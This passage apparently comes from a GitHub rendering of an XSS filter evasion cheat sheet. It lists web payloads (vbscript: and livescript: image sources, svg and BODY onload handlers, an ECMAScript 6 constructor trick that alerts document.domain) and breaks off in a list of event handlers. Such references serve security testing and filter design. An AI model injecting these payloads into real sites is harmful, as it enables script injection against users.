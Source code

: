 <h2><a id="user-content-vbscript-in-an-image" class="anchor" aria-hidden="true" href="#vbscript-in-an-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>VBscript in an image</h2>
<pre><code>&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;
</code></pre>
<h2><a id="user-content-livescript-older-versions-of-netscape-only" class="anchor" aria-hidden="true" href="#livescript-older-versions-of-netscape-only"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Livescript (older versions of Netscape only)</h2>
<pre><code>&lt;IMG SRC="livescript:[code]"&gt;
</code></pre>
<h2><a id="user-content-svg-object-tag" class="anchor" aria-hidden="true" href="#svg-object-tag"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>SVG object tag</h2>
<pre><code>&lt;svg/onload=alert('XSS')&gt;
</code></pre>
<h2><a id="user-content-ecmascript-6" class="anchor" aria-hidden="true" href="#ecmascript-6"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>ECMAScript 6</h2>
<pre><code>Set.constructor`alert\x28document.domain\x29```
</code></pre>
<h2><a id="user-content-body-tag" class="anchor" aria-hidden="true" href="#body-tag"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>BODY tag</h2>
<p>Method doesn't require using any variants of <code>javascript:</code> or <code>&lt;SCRIPT...</code> to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (<code>onload=</code> != <code>onload =</code>):</p>
<pre><code>&lt;BODY ONLOAD=alert('XSS')&gt;
</code></pre>
<h2><a id="user-content-event-handlers" class="anchor" aria-hidden="true" href="#event-handlers"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Event Handlers</h2>
<p>It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.</p>
<p>The <a href="http://help.dottoro.com/" rel="nofollow">Dottoro Web Reference</a> also has a nice <a href="http://help.dottoro.com/ljfvvdnm.php" rel="nofollow">list of events in JavaScript</a>.</p>
<ol>
<li><code>FSCommand()</code> (attacker can use this when executed from within an
embedded Flash object)</li>
<li><code>onAbort()</code> (when user aborts the loading of an image)</li>
<li><code>onActivate()</code> (when object is set as the active element)</li>
<li><code>onAfterPrint()</code> (activates after user prints or previews print job)</li>